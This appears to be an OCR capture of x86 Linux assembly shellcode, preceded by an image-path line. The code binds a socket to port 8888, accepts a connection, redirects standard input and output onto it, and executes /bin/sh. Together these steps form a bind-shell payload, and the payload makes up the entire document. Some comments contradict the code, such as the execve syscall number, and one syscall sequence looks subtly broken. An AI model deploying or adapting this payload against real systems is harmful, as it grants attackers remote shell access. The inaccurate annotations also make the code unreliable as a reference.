 ```assembly
	; Bind - 361
	mov ebx, eax ; $ebx = File descriptor stored in stack / returned by socket syscall
	xor eax, eax
	mov ax, 0x169 ; Syscall 361 = Bind
	xor edi, edi ; edi is 0
	mov edi, 0x12111190 ; 0x12111190 = 0x100007F + 0x11111111
	sub edi, 0x11111111 ; 0x11111111 is an aux value. It can change to 0x22222222, 0x33333333 with the Python wrapper if IP+0x11111111 has NOPs
	push edi ; The real IP gets stored. In this case ip = 127.0.0.1, big endian
    push word 0xb822 ; Port 8888, big endian
    push word 2 ; sin_family value is 2
	mov ecx, esp ; $ecx = 0x2, port, ip
	mov dl, 0x66
	int 0x80 ; eax = 0 now

	; Listen - 363
	mov ax, 0x16b ; Syscall 363 = Listen, $ebx = File descriptor address
	xor ecx, ecx ; $ecx = backlog = 0
	int 0x80 ; eax = 0 now

	; Accept - 364
	mov ax, 0x16c ; Syscall 364 = Accept, $ecx = addr = 0, local address, $edx = Address length is 16 bits 
	xor edx, edx
	xor esi, esi
	int 0x80

	;dup2 - 2, 1, 0
	mov ebx, eax ; $ebx = File descriptor address
	mov cl, 3 ; $ecx = New file descriptor = 0
	int 0x80

bucle:

	xor eax, eax
	mov al, 0x3f ; Syscall is 63 = Dup2
	int 0x80
	dec ecx
	jns bucle
	
	; Execve
	xor eax, eax
	push eax ; Push 0x0
	push 0x68732f2f ; Push '//sh' string
	push 0x6e69622f ; Push '/bin' string
	mov ebx, esp ; $ebx =  '/bin//sh' and 0x0
	push eax ; Push  0x0
	mov edx, esp ; $edx = 0x0
	push ebx ; Push $ebx =  '/bin//sh' and 0x0
	mov ecx, esp ; Address of stack, containing 0x0, '/bin//sh' and 0x0
	mov al, 11 ; Syscall is 17 = Execve
	int 0x80
```

